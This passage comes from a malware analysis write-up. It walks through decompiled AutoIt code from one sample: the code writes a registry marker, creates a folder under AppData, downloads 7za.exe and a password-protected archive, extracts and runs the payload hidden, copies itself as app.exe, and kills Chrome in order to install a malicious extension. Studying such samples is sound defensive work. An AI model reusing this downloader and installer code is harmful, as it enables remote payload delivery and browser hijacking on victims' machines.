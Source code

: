 ```autoit
  UpdateRegZip()
ENDFUNC

FUNC UpdateRegZip()
  GLOBAL $RegWrite_=EXECUTE(RegWrite)
  $RegWrite_(HKCU\Software\Unzip,Installed,Installed,Yes)
  GetPathInstall()
ENDFUNC
```

At this point, the malware is ready to install the third stage. First, it will try to create the folder `XXXXX¿?¿?¿?¿?`. Next, it will download the zip file, extract its content and execute the malicious payload:

```autoit
FUNC GetPathInstall()
  GLOBAL $UserName_=EXECUTE(@UserName)
  GLOBAL $AppDataDir_=EXECUTE($AppDataDir)
  GLOBAL $TargetPath_=$AppDataDir_&\$UserName_
  GLOBAL $DirCreate_=EXECUTE(DirCreate)
  $DirCreate_($TargetPath_)
  RunDownload()
ENDFUNC

FUNC RunDownload()
  GLOBAL $FileExists_=EXECUTE(FileExists)
  GLOBAL $InetGet_=EXECUTE(InetGet)
  IF NOT $FileExists_($TargetPath_&\7za.exe)THEN
    $InetGet_($Unzip,$TargetPath_&\7za.exe,1,0)
  ENDIF
    $InetGet_($zip_,$TargetPath_&\files.7z,1,0)
  Execute7zip()
ENDFUNC

FUNC Execute7zip()
  GLOBAL $SW_HIDE_=EXECUTE(@SW_HIDE)
  GLOBAL $RunWait=EXECUTE(RunWait)
  $RunWait($TargetPath_&\7za.exe e files.7z -aoa -pKEQZmgbrmDnTpa2b4DHVMX,$TargetPath_,$SW_HIDE_)
  ExecuteMlwAPP()
ENDFUNC

FUNC ExecuteMlwAPP()
  GLOBAL $ScriptFullPath_=EXECUTE(@ScriptFullPath)
  GLOBAL $FileCopy=EXECUTE(FileCopy)
  $FileCopy($ScriptFullPath_,$TargetPath_&\app.exe,537/537)
  CloseChrome()
ENDFUNC
```
Once the malware was installed, it will try to registry a malicious Chrome extension. To install the extension the sample kills every single Chrome process as shown below:

```autoit
FUNC CloseChrome()
  GLOBAL $ProcessWaitClose_=EXECUTE($ProcessWaitClose)
  GLOBAL $ProcessClose_=EXECUTE(ProcessClose)
  GLOBAL $WinClose_=EXECUTE(WinClose)
  GLOBAL $WinGetHandle_=EXECUTE(WinGetHandle)
  $TICPAB=[REGEXPTITLE:(?i)(.*Chrome.*)]
  WHILE $WinGetHandle_($TICPAB)
    $WinClose_($TICPAB)
  WEND
  $ProcessClose_(chrome.exe)
  $ProcessWaitClose_(chrome.exe)
  InstallRegisterRun()
ENDFUNC
```